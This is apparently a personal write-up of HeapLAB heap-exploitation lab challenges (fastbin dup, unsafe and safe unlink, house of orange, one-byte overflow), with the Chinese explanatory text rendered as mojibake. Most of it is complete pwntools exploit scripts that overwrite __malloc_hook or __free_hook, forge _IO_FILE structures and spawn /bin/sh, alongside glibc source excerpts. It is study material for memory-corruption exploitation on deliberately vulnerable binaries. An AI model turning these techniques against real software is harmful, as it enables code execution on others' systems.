没有é™åˆ¶double free，但æ¤æ—¶çš„chunk申请ä¸äº†0x68的大å°ä¹Ÿå°±æ„味ç€æˆ‘们ä¸èƒ½ç›´æ¥åˆ©ç”¨é‚£ä¸ª__malloc_hook - 35çš„ä½ç½®äº†ã€‚但是我们知é“main_arena上å˜ç€å„ç§fastbinçš„fd指针，å¯ä»¥ä½¿ç”¨ä¸¤æ¬¡fastbin dup，一次用æ¥å†™ sizeå—段，一次用æ¥å†™fdå—段，æ¤æ—¶çš„fdå—段是main_arena上的æŸä¸ªä½ç½®ï¼ˆè¦ä¸ä¼ªé€ çš„size相对应），æ¥ç€mallocæ¥è¦†ç›–至top_chunk的地å€ï¼Œä¿®æ”¹è‡³__malloc_hook - 35 çš„ä½ç½®ï¼Œæ¤æ—¶ç»§ç»malloc适当的大å°å³å¯è¦†ç›–至__malloc_hook，将其覆盖为one_gadget的地å€ã€‚但是我们å‘ç°æ¤æ—¶çš„寄å˜å™¨çŠ¶æ€å¹¶ä¸æ»¡è¶³ä»»ä½•ä¸€ä¸ªone_gadget所需è¦çš„æ¡ä»¶ï¼Œä¸è¿‡ç»æˆ‘们调试å‘ç°ç›¸åº”çš„ä½ç½®å˜ç€æ˜¯æˆ‘们之å‰è¾“入的值，将其修改为-s\x00å³å¯ã€‚
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
unsigned __int64 num; // rax
unsigned int index; // [rsp+14h] [rbp-7Ch]
size_t n; // [rsp+18h] [rbp-78h]
unsigned __int64 na; // [rsp+18h] [rbp-78h]
char *m_array[13]; // [rsp+20h] [rbp-70h] BYREF
unsigned __int64 v8; // [rsp+88h] [rbp-8h]
v8 = __readfsqword(0x28u);
setvbuf(_bss_start, 0LL, 2, 0LL);
puts("\n===============");
puts("| HeapLAB | CHALLENGE: Fastbin Dup");
puts("===============\n");
printf("puts() @ %p\n", &puts);
memset(m_array, 0, sizeof(m_array));
index = 0;
while ( 1 )
{
while ( 1 )
{
printf("\n1) malloc %u/%u\n", index, 13LL);
puts("2) free");
puts("3) quit");
printf("> ");
num = read_num();
if ( num != 2 )
break;
printf("index: ");
na = read_num();
if ( na >= index )
puts("invalid index");
else
free(m_array[na]);
}
if ( num == 3 )
break;
if ( num == 1 )
{
if ( index > 0xC )
{
puts("maximum requests reached");
}
else
{
printf("size: ");
n = read_num();
if ( n > 0x58 && (n <= 0x68 || n > 0x78) )
{
puts("fast chunks only (excluding 0x70)");
}
else
{
m_array[index] = (char *)malloc(n);
if ( m_array[index] )
{
printf("data: ");
read(0, m_array[index++], n);
}
else
{
puts("request failed");
}
}
}
}
}
exit(0);
}
两次fastbin dupï¼Œä¼ªé€ ä¸€ä¸ªsizeå—段以åŠä¸€ä¸ªfdå—段

继ç»malloc，将top chunk的地å€è¦†ç›–，为了方便观看我们将其修改为0xdeadbeef

为了满足一个对sizeå—段的检查，我们还是用__malloc_hook - 35æ¥è¦†ç›–top_chunk的地å€ã€‚
--- a/malloc/malloc.c
+++ b/malloc/malloc.c
@@ -4076,6 +4076,9 @@ _int_malloc (mstate av, size_t bytes)
victim = av->top;
size = chunksize (victim);
+ if (__glibc_unlikely (size > av->system_mem))
+ malloc_printerr ("malloc(): corrupted top size");
+
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
{
remainder_size = size - nb;
继ç»malloc，使用one_gadgetæ¥è¦†ç›–__malloc_hook，为了方便观察，我们ä»ç„¶ä½¿ç”¨0xdeadbeefæ¥ä»£æ›¿

继ç»malloc，观察是å¦æ»¡è¶³one_gadgetçš„æ¡ä»¶

æ¤æ—¶çš„寄å˜å™¨çŠ¶æ€

æ¤æ—¶çš„æ ˆå¸§çŠ¶æ€

å¯ä»¥è§‚察到并ä¸æ»¡è¶³ä»»ä½•ä¸€ä¸ªone_gadget的地å€ï¼Œä½†æ˜¯æˆ‘们看到第三个one_gadget，åªè¦æ±‚rsp+0x50çš„ä½ç½®æ‰€å˜çš„值为0å³å¯ï¼Œæ¤æ—¶çš„值我们å‘ç°æ˜¯å¯ä»¥æœ‰æˆ‘们自己æ§åˆ¶çš„，é‚修改å³å¯ã€‚
drop a shell

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup_2")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1
# =============================================================================
# =-=-=- EXAMPLE -=-=-=
# Request two 0x50-sized chunks.
chunk_A = malloc(0x48, b"A"*8)
chunk_B = malloc(0x48, b"B"*8)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
malloc(0x48, p64(0x61))
malloc(0x48, b"C"*0x48)
malloc(0x48, b"D"*0x48)
# other fastbin dup
chunk_E = malloc(0x58, b"E"*0x58)
chunk_F = malloc(0x58, b"F"*0x58)
free(chunk_E)
free(chunk_F)
free(chunk_E)
malloc(0x58, p64(libc.sym.main_arena + 0x20))
# malloc(0x58, b"G"*0x58)
malloc(0x58, b"-s\x00")
malloc(0x58, b"H"*0x58)
# over_write the top_chunk
malloc(0x58, b"Y"*0x30 + p64(libc.sym.__malloc_hook - 35))
# malloc(0x58, b"Y"*0x30 + p64(0xdeadbeef))
# malloc fake chunk
malloc(0x28, b"Z"*0x13 + p64(libc.address + 0xe1fa1))
# malloc(0x28, b"Z"*0x13 + p64(0xdeadbeef))
# drop a shell
malloc(0x10, b"")
# =============================================================================
io.interactive()
文件详è§babyheap
为了é¿å…å †å†…å˜è¿‡åº¦ç¢ç‰‡åŒ–ï¼Œå½“ä¸€ä¸ªå †å—（fastbin chunk 除外）被释放时，libc会查看其å‰åå †å—是å¦å¤„äºè¢«é‡Šæ”¾çš„状æ€ï¼Œå¦‚æœæ˜¯ï¼Œå°±å°†å‰é¢æˆ–åé¢çš„å †å—ä¸ä»binsä¸å–出，并äºå½“å‰å †å—åˆå¹¶ï¼Œè¿™ä¸ªå–出的过程便是unlink。
å‡è®¾æˆ‘们æ¤æ—¶å¼€è¾Ÿäº†6个大å°ä¸º0xa0çš„å †å—：
æ¤æ—¶æˆ‘们释放é è¿‘top chunkçš„å †å—，我们会å‘ç°è¯¥å †å—会和top chunkåˆå¹¶
æ¤æ—¶æˆ‘们释放第一个申请的å—，我们å¯ä»¥çœ‹åˆ°è¿™ä¸ªå—已被放入了unsortedbin，且fd,bk指针å‡è¢«èµ‹å€¼ï¼Œä¸‹ä¸€ä¸ªchunkçš„prev_sizeåŠprev_inuseå‡æœ‰æ”¹å˜
æ¤æ—¶æˆ‘们å†å»é‡Šæ”¾ä¸´è¿‘å—，我们会å‘ç°ä¸¤ä¸ªchunkåˆå¹¶æˆç«‹ä¸€ä¸ªchunk。


在这个unlink的过程ä¸å˜åœ¨ç€ä¸€ä¸ªfd,bkçš„å射写入，我们æ¤æ¼æ´çš„利用åŒæ ·ä¹Ÿæ˜¯æ ¹æ®äºæ¤ï¼š
我们先创建5个大å°ä¸º0x90çš„å †å—：
æ¥ç€æˆ‘ä»¬åˆ©ç”¨å †æº¢å‡ºæ¥ä¿®æ”¹ç¬¬ä¸‰ä¸ªå †å—çš„fd, bk以åŠç¬¬å››ä¸ªå †å—çš„prev_size，prev_inuse:
我们继ç»é‡Šæ”¾ç¬¬å››ä¸ªå—，æ¤æ—¶ç¬¬å››ä¸ªå—çš„prev_inuse为0，也就æ„味ç€è¿™ä¸ªå †å—会å‘å‰åˆå¹¶ã€‚

unsafe unlink 相应代ç 如下：
#define unlink(AV, P, BK, FD) {\
FD = P->fd;\
BK = P->bk;\
FD->bk = BK;\
BK->fd = FD;\
if (!in_smallbin_range (P->size)\
&& __builtin_expect (P->fd_nextsize != NULL, 0)) {\
if (FD->fd_nextsize == NULL) {\
if (P->fd_nextsize == P)\
FD->fd_nextsize = FD->bk_nextsize = FD;\
else {\
FD->fd_nextsize = P->fd_nextsize;\
FD->bk_nextsize = P->bk_nextsize;\
P->fd_nextsize->bk_nextsize = FD;\
P->bk_nextsize->fd_nextsize = FD;\
}\
} else {\
P->fd_nextsize->bk_nextsize = P->bk_nextsize;\
P->bk_nextsize->fd_nextsize = P->fd_nextsize;\
}\
}\
}
这项技术åªèƒ½åœ¨GLIBC版本<=2.3.3的情况下使用，safe unlink 是在2004å¹´GLIBC版本2.3.4ä¸å¼•å…¥çš„，而GLIBC版本如æ¤ä¹‹è€å¹¶ä¸å¸¸è§ã€‚这项技术最åˆæ˜¯ç”¨æ¥å¯¹ä»˜æ²¡æœ‰NX/DEPçš„å¹³å°çš„ï¼Œè¿™é‡Œä¹Ÿæ˜¯è¿™æ ·æ述的。2003年，AMD在他们的消费者桌é¢å¤„ç†å™¨ä¸å¼•å…¥äº†ç¡¬ä»¶NX支æŒï¼Œéšå英特尔在2004å¹´ä¹Ÿå¼•å…¥äº†ï¼Œå› æ¤æ²¡æœ‰è¿™ç§ä¿æŠ¤çš„系统并ä¸å¸¸è§ã€‚
æ–‡ä»¶è¯¦è§ unsafe_unlink
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/unsafe_unlink]
└─$ checksec unsafe_unlink
[*] '/home/fanya/Desktop/heap/heaplab/part1/unsafe_unlink/unsafe_unlink'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX disabled
PIE: PIE enabled
RWX: Has RWX segments
RUNPATH: '../.glibc/glibc_2.23_unsafe-unlink'
ç”±äºæ˜¯å¤è€æ—¶ä»£çš„unlink，没有基äºfd，åŠbk的安全检查，利用unlinkçš„å射写入æ¥ä¿®æ”¹__free_hook，ä»è€Œæ‰§è¡Œshellcode

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("unsafe_unlink")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size.
# Returns chunk index.
def malloc(size):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "edit" option; send index & data.
def edit(index, data):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
# Select the "free" option; send index.
def free(index):
io.send(b"3")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1
# =============================================================================
# Prepare execve("/bin/sh") shellcode with a jmp over where the fd will be written.
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)
fd = libc.sym.__free_hook - 0x18
bk = heap + 0x20
edit(chunk_A, pack(fd) + pack(bk) + shellcode.ljust(0x70, b'\x00') + p64(0x90)*2)
free(chunk_B)
free(chunk_A)
# =============================================================================
io.interactive()

/* Take a chunk off a bin list. */
static void
unlink_chunk (mstate av, mchunkptr p)
{
if (chunksize (p) != prev_size (next_chunk (p)))
malloc_printerr ("corrupted size vs. prev_size");
mchunkptr fd = p->fd;
mchunkptr bk = p->bk;
if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
malloc_printerr ("corrupted double-linked list");
fd->bk = bk;
bk->fd = fd;
if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
{
if (p->fd_nextsize->bk_nextsize != p
|| p->bk_nextsize->fd_nextsize != p)
malloc_printerr ("corrupted double-linked list (not small)");
if (fd->fd_nextsize == NULL)
{
if (p->fd_nextsize == p)
fd->fd_nextsize = fd->bk_nextsize = fd;
else
{
fd->fd_nextsize = p->fd_nextsize;
fd->bk_nextsize = p->bk_nextsize;
p->fd_nextsize->bk_nextsize = fd;
p->bk_nextsize->fd_nextsize = fd;
}
}
else
{
p->fd_nextsize->bk_nextsize = p->bk_nextsize;
p->bk_nextsize->fd_nextsize = p->fd_nextsize;
}
}
}
ä¼ªé€ ä¸€ä¸ªå‡çš„chunk，ä»åˆæ³•chunk的用户数æ®çš„第一个四å—开始，将其fdå’Œbk分别指å‘用 户数æ®æŒ‡é’ˆä¹‹å‰çš„0x18å’Œ0x10å—节，它们ä½äºè¯¥chunkä¸ã€‚为åç»çš„æ•°æ®å—设计一个prev_size å—段，比å‰ä¸€ä¸ªæ•°æ®å—çš„å®é™…大å°å°‘0x10å—节。利用一个溢出错误æ¥æ¸…除å继å—çš„prev_inuseä½ï¼Œå½“这个å—被释放时，malloc将试图把它ä¸å‡çš„å—å‘ååˆå¹¶ã€‚å‡çš„å—çš„fd所指å‘çš„å—çš„bk指å‘å‡çš„å—，而å‡çš„å—çš„bk所指å‘çš„å—çš„fd也指å‘å‡çš„å—，满足了safe link的检查。解除链æ¥è¿‡ç¨‹çš„结æœæ˜¯ï¼Œå‡å—的指针（指å‘åˆæ³•å—的用户数æ®çš„指针）被覆盖为自身的地å€å‡å»0x18。

文件详è§safe_unlink
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/safe_unlink]
└─$ checksec safe_unlink
[*] '/home/fanya/Desktop/heap/heaplab/part1/safe_unlink/safe_unlink'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
RUNPATH: '../.glibc/glibc_2.30_no-tcache'
m_arrayæ¥å‚¨å˜æ‰€ç”³è¯·çš„chunk，ä»è€Œæ–¹ä¾¿unlink的利用，ä»è€Œä¿®æ”¹__free_hook。#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("safe_unlink")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size.
# Returns chunk index.
def malloc(size):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "edit" option; send index & data.
def edit(index, data):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
# Select the "free" option; send index.
def free(index):
io.send(b"3")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.recvuntil(b"> ")
io.timeout = 0.1
# =============================================================================
# =-=-=- EXAMPLE -=-=-=
info(f"m_array @ 0x{elf.sym.m_array:02x}")
# Request 2 small chunks.
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)
# pause()
# Prepare fake chunk metadata.
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10
prev_size = 0x80
fake_size = 0x90
edit(chunk_A, p64(0) + p64(0x80) + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))
# pause()
free(chunk_B)
edit(chunk_A, p64(0)*3 + p64(libc.sym.__free_hook - 0x8))
edit(chunk_A, b'/bin/sh\x00' + p64(libc.sym.system ))
free(chunk_A)
# =============================================================================
io.interactive()

struct _IO_FILE {
int _flags; /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags
/* The following pointers correspond to the C++ streambuf protocol. */
/* Note: Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
char* _IO_read_ptr; /* Current read pointer */
char* _IO_read_end; /* End of get area. */
char* _IO_read_base; /* Start of putback+get area. */
char* _IO_write_base; /* Start of put area. */
char* _IO_write_ptr; /* Current put pointer. */
char* _IO_write_end; /* End of put area. */
char* _IO_buf_base; /* Start of reserve area. */
char* _IO_buf_end; /* End of reserve area. */
/* The following fields are used to support backing up and undo. */
char *_IO_save_base; /* Pointer to start of non-current get area. */
char *_IO_backup_base; /* Pointer to first valid character of backup area */
char *_IO_save_end; /* Pointer to end of non-current get area. */
struct _IO_marker *_markers;
struct _IO_FILE *_chain;
int _fileno;
#if 0
int _blksize;
#else
int _flags2;
#endif
_IO_off_t _old_offset; /* This used to be _offset but it's too small. */
#define __HAVE_COLUMN /* temporary */
/* 1+column number of pbase(); 0 is unknown. */
unsigned short _cur_column;
signed char _vtable_offset;
char _shortbuf[1];
/* char* _save_gptr; char* _save_egptr; */
_IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
_IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
/* Wide character stream stuff. */
struct _IO_codecvt *_codecvt;
struct _IO_wide_data *_wide_data;
struct _IO_FILE *_freeres_list;
void *_freeres_buf;
# else
void *__pad1;
void *__pad2;
void *__pad3;
void *__pad4;
size_t __pad5;
int _mode;
/* Make sure we don't get into trouble again. */
char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};
pwndbg> ptype /o FILE
pwndbg> ptype /o struct _IO_FILE
/* offset | size */ type = struct _IO_FILE {
/* 0 | 4 */ int _flags;
/* XXX 4-byte hole */
/* 8 | 8 */ char *_IO_read_ptr;
/* 16 | 8 */ char *_IO_read_end;
/* 24 | 8 */ char *_IO_read_base;
/* 32 | 8 */ char *_IO_write_base;
/* 40 | 8 */ char *_IO_write_ptr;
/* 48 | 8 */ char *_IO_write_end;
/* 56 | 8 */ char *_IO_buf_base;
/* 64 | 8 */ char *_IO_buf_end;
/* 72 | 8 */ char *_IO_save_base;
/* 80 | 8 */ char *_IO_backup_base;
/* 88 | 8 */ char *_IO_save_end;
/* 96 | 8 */ struct _IO_marker *_markers;
/* 104 | 8 */ struct _IO_FILE *_chain;
/* 112 | 4 */ int _fileno;
/* 116 | 4 */ int _flags2;
/* 120 | 8 */ __off_t _old_offset;
/* 128 | 2 */ unsigned short _cur_column;
/* 130 | 1 */ signed char _vtable_offset;
/* 131 | 1 */ char _shortbuf[1];
/* XXX 4-byte hole */
/* 136 | 8 */ _IO_lock_t *_lock;
/* 144 | 8 */ __off64_t _offset;
/* 152 | 8 */ struct _IO_codecvt *_codecvt;
/* 160 | 8 */ struct _IO_wide_data *_wide_data;
/* 168 | 8 */ struct _IO_FILE *_freeres_list;
/* 176 | 8 */ void *_freeres_buf;
/* 184 | 8 */ size_t __pad5;
/* 192 | 4 */ int _mode;
/* 196 | 20 */ char _unused2[20];
/* total size (bytes): 216 */
}
pwndbg> dt "struct _IO_FILE"
pwndbg> dt FILE
FILE
+0x0000 _flags : int
+0x0008 _IO_read_ptr : char *
+0x0010 _IO_read_end : char *
+0x0018 _IO_read_base : char *
+0x0020 _IO_write_base : char *
+0x0028 _IO_write_ptr : char *
+0x0030 _IO_write_end : char *
+0x0038 _IO_buf_base : char *
+0x0040 _IO_buf_end : char *
+0x0048 _IO_save_base : char *
+0x0050 _IO_backup_base : char *
+0x0058 _IO_save_end : char *
+0x0060 _markers : struct _IO_marker *
+0x0068 _chain : struct _IO_FILE *
+0x0070 _fileno : int
+0x0074 _flags2 : int
+0x0078 _old_offset : __off_t
+0x0080 _cur_column : short unsigned int
+0x0082 _vtable_offset : signed char
+0x0083 _shortbuf : char [1]
+0x0088 _lock : _IO_lock_t *
+0x0090 _offset : __off64_t
+0x0098 _codecvt : struct _IO_codecvt *
+0x00a0 _wide_data : struct _IO_wide_data *
+0x00a8 _freeres_list : struct _IO_FILE *
+0x00b0 _freeres_buf : void *
+0x00b8 __pad5 : size_t
+0x00c0 _mode : int
+0x00c4 _unused2 : char [20]
pwndbg> p _IO_list_all
$2 = (struct _IO_FILE_plus *) 0x7ffff7f775c0 <_IO_2_1_stderr_>
pwndbg> dt "struct _IO_FILE_plus"
struct _IO_FILE_plus
+0x0000 file : FILE
+0x00d8 vtable : const struct _IO_jump_t *
pwndbg> dt "struct _IO_jump_t"
struct _IO_jump_t
+0x0000 __dummy : size_t
+0x0008 __dummy2 : size_t
+0x0010 __finish : _IO_finish_t
+0x0018 __overflow : _IO_overflow_t
+0x0020 __underflow : _IO_underflow_t
+0x0028 __uflow : _IO_underflow_t
+0x0030 __pbackfail : _IO_pbackfail_t
+0x0038 __xsputn : _IO_xsputn_t
+0x0040 __xsgetn : _IO_xsgetn_t
+0x0048 __seekoff : _IO_seekoff_t
+0x0050 __seekpos : _IO_seekpos_t
+0x0058 __setbuf : _IO_setbuf_t
+0x0060 __sync : _IO_sync_t
+0x0068 __doallocate : _IO_doallocate_t
+0x0070 __read : _IO_read_t
+0x0078 __write : _IO_write_t
+0x0080 __seek : _IO_seek_t
+0x0088 __close : _IO_close_t
+0x0090 __stat : _IO_stat_t
+0x0098 __showmanyc : _IO_showmanyc_t
+0x00a0 __imbue : _IO_imbue_t
for (fp = (_IO_FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
{
run_fp = fp;
if (do_lock)
_IO_flockfile (fp);
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
|| (_IO_vtable_offset (fp) == 0
&& fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
> fp->_wide_data->_IO_write_base))
)
&& _IO_OVERFLOW (fp, EOF) == EOF)
result = EOF;
if (do_lock)
_IO_funlockfile (fp);
run_fp = NULL;
}
/* Take now instead of binning if exact fit */
if (size == nb)
{
set_inuse_bit_at_offset (victim, size);
if (av != &main_arena)
set_non_main_arena (victim);
#if USE_TCACHE
/* Fill cache first, return to user only if cache fills.
We may return one of these chunks later. */
if (tcache_nb
&& tcache->counts[tc_idx] < mp_.tcache_count)
{
tcache_put (victim, tc_idx);
return_cached = 1;
continue;
}
else
{
#endif
check_malloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb (p, bytes);
return p;
#if USE_TCACHE
}
#endif
}
æ–‡ä»¶è¯¦è§ house_of_orange
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("house_of_orange")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
set breakpoint pending on
break _IO_flush_all_lockp
enable breakpoints once 1
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Select the "malloc (small)" option.
def small_malloc():
io.send(b"1")
io.recvuntil(b"> ")
# Select the "malloc (large)" option.
def large_malloc():
io.sendthen(b"> ", b"2")
# Select the "edit (1st small chunk)" option; send data.
def edit(data):
io.send(b"3")
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1
# =============================================================================
# =-=-=- EXAMPLE -=-=-=
# Request a small chunk.
small_malloc()
# Edit the 1st small chunk.
edit(b"Y"*24+p64(0x1000 - 0x20 + 1))
large_malloc()
# edit(b"Y"*24 + p64(0x21) + p64(0))
# edit(b"Y"*24 + p64(0x21) + p64(0) + p64(libc.sym._IO_list_all - 0x10))
# small_malloc()
# IO_FILE
flags = b"/bin/sh\x00"
size = 0x61
fd = 0
bk = libc.sym._IO_list_all - 0x10
write_base = 0x1
write_ptr = 0x2
mode = 0x0
vtable_ptr = heap + 0xd8
overflow = libc.sym.system
fake_io_file = flags + p64(size) +\
p64(fd) + p64(bk) +\
p64(write_base) + p64(write_ptr) +\
p64(0)*18 + p32(mode) + p32(0) +\
p64(0) + p64(overflow) +p64(vtable_ptr)
edit(b"X"*16 + fake_io_file)
small_malloc()
# =============================================================================
io.interactive()
æ–‡ä»¶è¯¦è§ one_byte
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("one_byte")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option.
# Returns chunk index.
def malloc():
global index
io.sendthen(b"> ", b"1")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
# Select the "edit" option; send index & data.
def edit(index, data):
io.send(b"3")
io.sendafter(b"index: ", f"{index}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
# Select the "read" option; read 0x58 bytes.
def read(index):
io.send(b"4")
io.sendafter(b"index: ", f"{index}".encode())
r = io.recv(0x58)
io.recvuntil(b"> ")
return r
io = start()
io.recvuntil(b"> ")
io.timeout = 0.1
# =============================================================================
chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()
chunk_E = malloc()
# overlap
edit(chunk_A, b'Y'*88 + p8(0xc1))
# leak libc
free(chunk_B)
chunk_B = malloc()
data = read(chunk_C)
unsortedbin_address = u64(data[:8])
info(f"unsortedbin_address -> {hex(unsortedbin_address)}")
libc.address = unsortedbin_address - 0x58 - libc.sym.main_arena
info(f"libc base -> {hex(libc.address)}")
# leak heap
chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)
heap = u64(read(chunk_C)[:8])
info(f"heap base -> {hex(heap)}")
# unsortedbin
chunk_C2 = malloc()
chunk_A = malloc()
edit(chunk_A, b"Y"*88 + p8(0xc1))
# edit(chunk_A, b"Y"*88 + p8(0x68))
free(chunk_B)
chunk_B = malloc()
# unsortedbin again and IO_File
edit(chunk_B, p64(0)*10 + b'/bin/sh\x00' + p8(0xb1))
edit(chunk_C, p64(0) + p64(libc.sym._IO_list_all - 0x10) + p64(1) + p64(2))
edit(chunk_E, p64(libc.sym.system) + p64(heap + 0x178))
malloc()
# =============================================================================
io.interactive()
source code
self blog
github blog
文档